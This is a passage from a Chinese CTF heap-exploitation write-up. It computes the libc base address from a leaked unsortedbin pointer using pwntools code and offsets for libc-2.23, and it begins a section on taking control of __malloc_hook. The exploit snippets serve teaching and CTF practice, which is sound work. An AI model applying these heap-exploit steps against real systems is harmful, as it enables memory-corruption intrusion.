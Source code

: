 ### 1-10、计算libc基址
这时查看我们的内存分布：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604659813767-e4f0e97b-0f5e-4c25-afbb-cfe0581d42cd.png)

> 注意：文章前面的结构体内存情况是我后来补充的，由于地址随机，故与上图的地址不相同。
>

---

> 0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
>

上面这一行中的0x7ffff7a0d000就是libc的基地址。

**<font style="color:#F5222D;">libc基址与unsortedbin本身的地址的offset是不变的</font>**。为：![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604668034156-df0186c8-f2d3-4896-bc54-0072b8a78fb1.png)

3951480（十进制）==0x3C4B78

除了上面payload外，还可以直接这样写：

```c
-----------------------------------------------------------------------------
还可以直接这样写
libc_base = u64(dump(2)[:8].strip().ljust(8, "\x00"))-0x3c4b78
-----------------------------------------------------------------------------
示例payload的写法：
#因为index2是指向index4的，所以直接把index2给dump一下就能拿到index4中前一部分的内容了
#main_arena与libc偏移为0x3c4b20(附件中有工具)
#再加上main_arena与unsortedbin的偏移,得到unsortedbins与libc的偏移
unsorted_offset_mainarena=unsorted_offset_arena(5)#这函数还不太明白
unsorted_addr=u64(dump(2)[:8].strip().ljust(8, "\x00"))
libc_base=unsorted_addr-0x3c4b20-unsorted_offset_mainarena
log.info("libc_base: "+hex(libc_base))
    
def unsorted_offset_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset
-----------------------------------------------------------------------------
```

> 结构体状况未发生改变
>

## 2、控制__malloc_hook
### 2-1、申请unsortedbin中的堆块
```c
alloc(0x60)
```
